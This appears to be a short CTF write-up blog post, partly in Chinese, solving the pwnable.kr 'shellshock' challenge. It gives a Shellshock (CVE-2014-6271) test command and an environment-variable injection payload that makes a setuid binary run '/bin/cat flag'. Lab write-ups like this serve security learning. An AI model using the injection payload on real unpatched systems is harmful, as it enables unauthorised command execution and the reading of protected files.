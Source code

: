 ```yaml
---
layout:     post
title:      pwnable shellshock
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Daddy bought me a system command shell.  
>but he put some filters to prevent me from playing with it without his permission...  
>but I wanna play anytime I want!  
>Address:  
>ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)  
<!-- more -->


### 0x00 exploit

CVE-2014-6271 破壳漏洞利用, 先检验漏洞是否存在

```
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

![](/assets/img/writeup/pwn/2017-08-27-pwnable-shellshock/0x00.png)

构造一下利用

```
$ env x='() { :;}; /bin/cat flag' bash -c "./shellshock"
```

getflag~

![](/assets/img/writeup/pwn/2017-08-27-pwnable-shellshock/0x01.png)
